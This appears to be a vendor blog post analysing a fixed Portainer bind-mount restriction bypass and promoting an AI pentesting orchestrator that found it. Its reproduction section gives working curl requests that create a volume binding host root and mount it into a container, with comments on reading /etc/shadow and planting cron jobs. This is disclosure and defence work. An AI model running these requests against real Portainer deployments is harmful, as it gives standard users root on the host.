


# Portainer Bind-Mount Bypass (GHSA-jmr9-98g4-2phv)

**Advisory:** [GHSA-jmr9-98g4-2phv](https://github.com/portainer/portainer/security/advisories/GHSA-jmr9-98g4-2phv) · **Severity:** Critical, CVSS 9.4 · **Fixed in:** Portainer 2.45.2

Portainer has a control, on by default, that stops a non-administrator from mounting folders from the **host machine** into their containers. That control mattered because Portainer talks to the Docker daemon with root-level access: if a standard user can mount the host's filesystem, they can read and change it, and from there take over the machine.

The control worked by recognising **one exact wording** of a mount request. Docker accepts other wordings that do the same thing. This post shows, command by command, how a standard user could reach the host by asking for the mount a way the check did not recognise — and how Bravos found it before anyone had to guess.

> This is a defensive write-up of a flaw Portainer has already fixed. Run it only against a copy of **Portainer 2.39.2** that you own and are authorised to test. Upgrade production to 2.45.2.


## The one fact that makes this critical

Portainer holds root-equivalent credentials for every environment it manages. So its API is a **higher-privilege surface than any user account**: a standard user is one authorization gap away from the Docker socket, and the Docker socket is root on the host. The bind-mount restriction is one of the controls standing between "standard user" and "root on the host".

## How Bravos handled the whole thing — one prompt, no setup

Here is the part that still feels a little unfair. We did not spend a day standing up a test lab, learning an unfamiliar codebase, writing a threat model, and hand-crafting payloads. We pointed Bravos at the code and let it run. This is the actual sequence.

**1. Clone the code.** We cloned Portainer Community Edition 2.39.2 — nothing else prepared. No running server, no test accounts, no environment of our own.

```bash
git clone --branch 2.39.2 https://github.com/portainer/portainer
```

**2. `bravos init` — point Bravos at the repository.** One command tells Bravos "this is the codebase." It wires in GuardLink, works out the scope, writes the agent instructions, and builds a code graph of the whole project.

```bash
bravos init portainer
```

**3. Open the dashboard — or just talk to Bravos from your AI assistant.** You can drive everything from the Bravos dashboard in your browser, or skip the UI and use Bravos over MCP from the coding assistant you already use:

```bash
bravos dashboard          # opens http://localhost:8787
# or
bravos mcp                # serves Bravos's tools to your AI assistant over MCP
```

That MCP path is how this run really began: a single plain-language prompt, and nothing set up by hand.

**4. Ask for what you want, in plain words.** We did not write a scan configuration. We described the goal, and Bravos turned it into a concrete, reviewable plan.

```bash
bravos intake "pentest Portainer as a standard, non-admin user; prove anything that reaches the host or an internal service"
```

**5. Read the plan and approve it.** Bravos showed exactly which goals it would pursue and which checks it would run. We read it and said yes.

```bash
bravos intake --approve <plan-id>
```

**6. Bravos ran the whole loop — and built the test environment itself.** This is the step people underestimate. We never stood up Portainer, never created users, never seeded data. Bravos authored a recipe for a disposable environment, brought it up, created the test accounts at each role, and then ran.

```bash
bravos auto --plan <plan-id> --init-env
```

Under that one command, Bravos orchestrated three specialists in order:



**GuardLink** read all 4,606 files and wrote the threat model straight into the repository — 881 annotations — in minutes. That is the moment that changes the economics of a review. Instead of a person spending days getting to know Portainer, we had a complete map of where untrusted input reaches something dangerous, across the whole project, almost immediately. We understood every plausible class of threat the codebase could hold — the host-reaching Docker paths, the server-side fetches, the public pre-auth routes — before sending a single request.

One of those annotations is the whole story of this post: the volume-restriction check, `CheckVolumeBodyRestrictions`, decides whether a request *looks* like a bind mount. A `local` volume with driver options `type: none, o: bind, device: /` does not look like one to the check — but Docker treats it as a bind mount of host root all the same.

**CodeGraph** then ranked these paths by what they can actually reach, and the Docker proxy — one authorization gap away from root on the host — went to the top.

After that, all that was left was **proof**. A map tells you where to look; it does not tell you the door is actually unlocked. So **Cert-X-Gen** took the flagged path and tried it on the running copy, as a real standard user, and recorded only what the app actually did — in this case, the host's root filesystem mounting into an ordinary container.



**7. Read the results.** Bravos wrote the threat model (`threat-model.md`), the machine-readable model (`.guardlink/report.json`), and a ledger of every goal with its verdict. The issue in this post is one of the ones that came back **confirmed** — because the running app demonstrated it.

The headline is the orchestration. We mapped Portainer's entire threat model in minutes with Bravos and GuardLink, understood the threats the codebase could plausibly hold, and then needed only proof — which Bravos and Cert-X-Gen produced on a live copy. **Bravos orchestrated all of it**: the environment, the model, the ranking, the probes, and the evidence. We supplied one prompt.

If you would rather watch the raw exchange, the same finding reproduced by hand looks like this.

## Reproduce it, command by command

Assume a running Portainer 2.39.2, a standard (non-admin) user, and a Docker environment with id `1`. First, authenticate as the standard user and keep the token:

```bash
# 1. Log in as a standard, non-admin user
TOKEN=$(curl -s -X POST https://portainer.local/api/auth \
  -H 'Content-Type: application/json' \
  -d '{"username":"alice","password":"<alice-password>"}' | jq -r .jwt)
```

Now create a `local` volume whose driver options describe a bind of host root — worded as `type: none`, which the restriction check does not treat as a bind mount:

```bash
# 2. Create a volume that bind-mounts host "/" — passes CheckVolumeBodyRestrictions
curl -s -X POST "https://portainer.local/api/endpoints/1/docker/volumes/create" \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{
        "Name": "hostroot",
        "Driver": "local",
        "DriverOpts": { "type": "none", "o": "bind", "device": "/" }
      }'
# -> 201 Created. The restriction passed because DriverOpts.type is "none", not "bind".
```

The check looked for the obvious wording and waved this one through. The volume now points at the host's root filesystem.


Mount that volume into an ordinary container and you are reading and writing the host's files as a regular user:

```bash
# 3. Start a container with the host-root volume mounted at /host
curl -s -X POST "https://portainer.local/api/endpoints/1/docker/containers/create?name=probe" \
  -H "Authorization: Bearer $TOKEN" \
  -H 'Content-Type: application/json' \
  -d '{
        "Image": "alpine",
        "Cmd": ["sleep","3600"],
        "HostConfig": { "Binds": ["hostroot:/host"] }
      }'

# 4. Start it, exec in, and the host filesystem is under /host
#    cat /host/etc/shadow, write a cron job, drop a key — this is host takeover.
```

Step 3 is the moment the flaw becomes real: the container comes up with the host's root directory mounted inside it. From there, reading `/host/etc/shadow` or writing into `/host/etc/cron.d` is ordinary file access — and it is root on the host.

## Why the control missed it

The restriction inspected the **shape** of the request — "is this spelled like a bind mount?" — instead of its **effect** — "does this end up mounting a host path?". Docker offers more than one spelling for the same outcome, so a shape check will always have a gap. Cert-X-Gen did not reason about that from the code; it submitted the alternate spelling to a running daemon and watched the host mount succeed. That is the difference between a suspicion and a confirmed finding.

## The fix and what to do

- **Upgrade to Portainer 2.45.2**, which carries the fix.
- On the 2.39.x LTS line, follow the advisory's workarounds until a fixed release is available.
- The engineering lesson is reusable: **validate what a request does, not how it is worded.** If a control recognises one exact request shape, enumerate the other shapes the backend accepts for the same effect.

## References

- Advisory: [GHSA-jmr9-98g4-2phv](https://github.com/portainer/portainer/security/advisories/GHSA-jmr9-98g4-2phv)
- Companion case study: [Two Portainer Advisories, found with Bravos](https://bugb.io/resources/case-studies/portainer-ssrf-bindmount)
- GuardLink and Cert-X-Gen are open source; Bravos orchestrates them.
